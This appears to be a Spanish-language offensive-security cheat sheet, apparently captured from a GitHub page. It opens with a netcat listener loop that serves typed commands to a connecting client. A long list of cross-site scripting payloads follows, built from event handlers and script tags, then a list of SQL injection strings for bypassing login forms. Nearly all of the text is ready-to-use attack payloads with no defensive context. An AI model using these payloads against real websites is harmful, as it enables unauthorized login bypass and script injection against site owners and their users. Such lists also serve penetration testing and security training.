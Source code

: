 ### para escuchar:
```
while :; do printf "Y000>$ "; read c; echo $c | nc -vvlp PORT >/dev/null; done
```


Muchos mas:

```
<\x3Cscript>javascript:alert(1)</script>
'`"><\x00script>javascript:alert(1)</script>
<img src=1 href=1 onerror="javascript:alert(1)"></img>
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
<video src=1 href=1 onerror="javascript:alert(1)"></video> 
<body src=1 href=1 onerror="javascript:alert(1)"></body>
<image src=1 href=1 onerror="javascript:alert(1)"></image>
<object src=1 href=1 onerror="javascript:alert(1)"></object>
<script src=1 href=1 onerror="javascript:alert(1)"></script> 
<svg onResize svg onResize="javascript:javascript:alert(1)"></svg onResize>
<title onPropertyChange title onPropertyChange="javascript:javascript:alert(1)"></title onPropertyChange> <iframe onLoad iframe onLoad="javascript:javascript:alert(1)"></iframe onLoad> 
<body onMouseEnter body onMouseEnter="javascript:javascript:alert(1)"></body onMouseEnter> 
<body onFocus body onFocus="javascript:javascript:alert(1)"></body onFocus>
<frameset onScroll frameset onScroll="javascript:javascript:alert(1)"></frameset onScroll> 
<script onReadyStateChange script onReadyStateChange="javascript:javascript:alert(1)"></script onReadyStateChange>
<html onMouseUp html onMouseUp="javascript:javascript:alert(1)"></html onMouseUp>
<body onPropertyChange body onPropertyChange="javascript:javascript:alert(1)">
</body onPropertyChange> <svg onLoad svg onLoad="javascript:javascript:alert(1)">
</svg onLoad> <body onPageHide body onPageHide="javascript:javascript:alert(1)"></body onPageHide> 
<body onMouseOver body onMouseOver="javascript:javascript:alert(1)"></body onMouseOver> 
<body onUnload body onUnload="javascript:javascript:alert(1)">
```




# sql injection 

## Payloads para sql inyection login bypass

```
' or ''-'
" or ""-"
" or true--
' or true--
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
```